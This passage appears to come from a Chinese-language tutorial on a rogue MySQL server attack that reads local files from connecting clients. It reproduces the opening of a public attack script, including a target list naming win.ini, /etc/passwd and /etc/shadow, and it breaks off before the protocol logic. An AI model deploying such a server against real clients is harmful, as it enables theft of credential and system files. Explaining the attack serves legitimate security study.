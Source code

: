 可以看到，客户端相当于被攻击者给**半劫持**了。

利用上述的特性，我们通过构造一个恶意的服务端，即可完成上述的过程。

简易恶意服务端代码：

```
#代码摘自：https://github.com/Gifts/Rogue-MySql-Server/blob/master/rogue_mysql_server.py
#!/usr/bin/env python
#coding: utf8

import socket
import asyncore
import asynchat
import struct
import random
import logging
import logging.handlers

PORT = 3306
log = logging.getLogger(__name__)
log.setLevel(logging.DEBUG)
tmp_format = logging.handlers.WatchedFileHandler('mysql.log', 'ab')
tmp_format.setFormatter(logging.Formatter("%(asctime)s:%(levelname)s:%(message)s"))
log.addHandler(
    tmp_format
)

filelist = (
#    r'c:\boot.ini',
    r'c:\windows\win.ini',
#    r'c:\windows\system32\drivers\etc\hosts',
#    '/etc/passwd',
#    '/etc/shadow',
)

#================================================
#=======No need to change after this lines=======
#================================================

__author__ = 'Gifts'

def daemonize():
    import os, warnings
    if os.name != 'posix':
        warnings.warn('Cant create daemon on non-posix system')
        return

    if os.fork(): os._exit(0)
    os.setsid()
    if os.fork(): os._exit(0)
    os.umask(0o022)
    null=os.open('/dev/null', os.O_RDWR)
    for i in xrange(3):
        try:
            os.dup2(null, i)
        except OSError as e:
            if e.errno != 9: raise
    os.close(null)

class LastPacket(Exception):
    pass

class OutOfOrder(Exception):
    pass
```